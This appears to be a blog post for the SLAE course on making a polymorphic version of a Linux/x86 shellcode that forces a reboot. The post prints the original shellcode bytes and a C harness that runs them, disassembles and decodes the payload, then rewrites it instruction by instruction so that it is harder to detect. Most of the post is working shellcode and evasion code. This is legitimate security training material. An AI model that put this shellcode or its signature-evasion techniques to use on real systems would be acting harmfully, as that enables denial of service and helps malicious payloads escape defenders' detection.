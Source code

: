 ```yaml
---
layout: post
title: SLAE 6.1 - Shell-Storm Polymorphism - force reboot
date:   2019-03-07
categories: [SLAE, Assembly]
---
```

The first piece of shellcode we will try to create a polymorphic version of will be:\
http://shell-storm.org/shellcode/files/shellcode-831.php
```
**********************************************
* Linux/x86 Force Reboot shellcode 36 bytes  *
**********************************************
* Author: Hamza Megahed                      *
**********************************************
* Twitter: @Hamza_Mega                       *
**********************************************
* blog: hamza-mega[dot]blogspot[dot]com      *
**********************************************
* E-mail: hamza[dot]megahed[at]gmail[dot]com *
**********************************************

xor    %eax,%eax
push   %eax
push   $0x746f6f62
push   $0x65722f6e
push   $0x6962732f
mov    %esp,%ebx
push   %eax
pushw  $0x662d
mov    %esp,%esi
push   %eax
push   %esi
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

**********************************************

#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e"
                  "\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3"
                  "\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53"
                  "\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```
It says it is a force reboot shellcode.  Let's do some analysis before we run it just to verify that it does what it claims to do.\
With how short the shellcode is, I'll check the instructions with ndisasm for a quick overview.\
```
python -c "print '\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53\x89\xe1\xb0\x0b\xcd\x80'" | ndisasm -u -
00000000  31C0              xor eax,eax
00000002  50                push eax
00000003  68626F6F74        push dword 0x746f6f62
00000008  686E2F7265        push dword 0x65722f6e
0000000D  682F736269        push dword 0x6962732f
00000012  89E3              mov ebx,esp
00000014  50                push eax
00000015  66682D66          push word 0x662d
00000019  89E6              mov esi,esp
0000001B  50                push eax
0000001C  56                push esi
0000001D  53                push ebx
0000001E  89E1              mov ecx,esp
00000020  B00B              mov al,0xb
00000022  CD80              int 0x80
00000024  0A                db 0x0a
```
we see:
```
* push null byte
* push what looks like a string
* 1st arg is the string
* push another null
* push another value (string)
* store string address in esi
* push null
* push 2nd string address
* push 1st string address
* move this struct into our 2nd arg
* syscall 11 - execve
```
So we have execve([string1], [string1 string2])\
Let's check the strings:
```
>>> binascii.unhexlify('746f6f62')
'toob'
>>> binascii.unhexlify('65722f6e')
'er/n'
>>> binascii.unhexlify('6962732f')
'ibs/'
>>> binascii.unhexlify('662d')
'f-'
```
Little Endian - first string reads: /sbin/reboot\
second string reads: -f

So our command is execve('/sbin/reboot', {'/sbin/reboot','-f'},0)

Let's begin making a polymorphic version of this..\
This is a pretty short piece of shellcode so we can try to mix it up as much as we can.. One of the requirements is that our version cannot be greater than 150% of the original. Given that our original is 36 bytes, we have to fit within 54 bytes.

The original starts with zeroing out EAX, which is a crafty solution since eax needs to be zeroed out at the end to mov 0xb into al for the syscall.  Let's change this and use edx as the null and we'll just zero EAX later on right before we make the call. We can zero edx with the instruction "cdq" which is a 1 byte opcode.  The next step is to push the /sbin/reboot string to the stack, lets just split this so that we push word values instead of dword values. This might avoid detection on the dword pushes. So we are currently at:
```nasm
 cdq
 push edx

 push word 0x746f
	push word 0x6f62
	push word 0x6572
	push word 0x2f6e
	push word 0x6962
	push word 0x732f
```
Next we have to mov the stack pointer into ebx. We are just going to leave this instruction. Next, we are goign to push a null terminated '-f' to the stack and move it's address into esi for safe keeping. So our push eax is now push edx, we push our string, then let's change this mov esi, esp.  We will use eax since we will be changing it soon anyways.. We can zero out eax by subtracting itself to get 0, then we can just add esp to it.  So we are essentially doing a mov eax, esp but using sub and add instructions.
```nasm
 push edx
 push word 0x662d
 sub eax, eax
 add eax, esp
```
Next we create our args struct with a few push instructions, we will push edx (null), push eax ('-f'), push ebx ('/sbin/reboot') then we need to move our stack pointer into ecx.  Let's do the sub - add replacement for the mov.
```nasm
push edx
push eax
push ebx
sub ecx, ecx
add ecx, esp
```
Our last instructions move 0xb into al and then makes the call.  Since I decided to use edx for the null and eax has values in it, we have to zero it out and then move the value into al.  Again, sub add replacement here then the int 0x80.
```nasm
sub eax, eax
add al, 0xb
int 0x80
```
All done, our total bytes is 50 and it runs properly!  Let's put them side by side to show the differences.
```nasm
xor eax,eax                          cdq     
push eax                             push edx
push dword 0x746f6f62                push word 0x746f
                                     push word 0x6f62
push dword 0x65722f6e                push word 0x6572
                                     push word 0x2f6e
push dword 0x6962732f                push word 0x6962
                                     push word 0x732f
mov ebx,esp                          mov ebx, esp

push eax                             push edx
push word 0x662d                     push word 0x662d
mov esi,esp                          sub eax, eax
                                     add eax, esp
push eax                             push edx
push esi                             push eax
push ebx                             push ebx
mov ecx,esp                          sub ecx, ecx
                                     add ecx, esp
mov al,0xb                           sub eax, eax
                                     add al, 0xb
int 0x80                             int 0x80
```
